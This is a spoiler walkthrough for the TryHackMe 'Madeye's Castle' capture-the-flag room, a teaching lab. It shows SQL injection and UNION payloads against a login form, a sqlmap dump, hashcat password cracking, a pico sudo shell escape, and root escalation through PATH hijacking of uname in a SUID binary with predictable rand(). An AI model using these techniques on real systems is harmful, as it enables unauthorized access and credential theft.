# Madeye's Castle CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Madeye's Castle** CTF challenge on [TryHackMe](https://tryhackme.com/room/madeyescastle). 
---

we see 4 open ports 22, 80 , 139 and 445 



first looking at port 80, we see hidden comment suggesting `hogwartz-castle.thm` adding to /etc/hosts



on the page we see login page



we can use this payload to get SQLi 

```
admin' or 1=1 -- -
```

we got note 


```
The password for Lucas Washington is incorrect! contact administrator. Congrats on SQL injection... keep digging
```

after using enum4linux we found a samba share: sambashare



we found 2 files `.notes.txt` and `spellnames.txt`





going back to login we can use sqlmap to further test for sqli 

```
sqlmap -u 'http://hogwartz-castle.thm/login' --random-agent --method POST --data 'user=test&password=pass' -p user --dump --level=5 --risk=3
```



we know about SQLite dbms, we can also add --tables to command to find table `users`



we can test with unions



we can use this payload to find the names of columns in table users (name, password, admin, notes )

```
user=' UNION SELECT sql, NULL, NULL,null FROM sqlite_master WHERE type='table' AND name='users'-- -&password=TEST
```



by using this command we can dump whole column 

```
user=' UNION SELECT 1, 2, 2,group_concat(name) FROM users -- -&password=TEST
```



if we dump notes column we see a comment: `My linux username is my first name, and password uses best64`



now after extracting names and passwords we can use hashcat with the rule best64

```
hashcat -a 0 -m 1700 hash.txt spellnames.txt -r /usr/share/hashcat/rules/best64.rule 
```

we found password for harry 



we got access as harry and got user flag



by looking at sudo -l output we can use this command to gain shell as hermonine



```
sudo -u hermonine /usr/bin/pico
```



inside the editor we use: 

```
Ctrl + R
Ctrl + X
reset; sh 1>&0 2>&0
```



we gained the shell and flag



we found SUID file `/srv/time-turner/swagger`, it is some number guessing game





i created the private key and added do hermonine authorized keys to log via ssh to gain stable access

after analysing the file we see that file uses uname and uses function rand()







if we use this command we see that the "random" number is exactly the same in all cases, the rand() function is not safe

```
for i in {1..5};do echo 1 | /srv/time-turner/swagger ; done
```



we can create our own version of uname command containing reverse shell 

```
$ cd /tmp
$ nano uname
$ chmod 777 uname
$ export PATH=/tmp:$PATH
```



then we can run this command

```
echo 0 | /srv/time-turner/swagger | awk '{print $5}' | tail -1 | /srv/time-turner/swagger
```

The command works by first running the swagger program with input 0, capturing its output, extracting the fifth word (which is the randomly generated number), and then running swagger again—this time feeding it the extracted number as input to correctly guess the random value.



now we have root access and root flag



# MACHINE PWNED
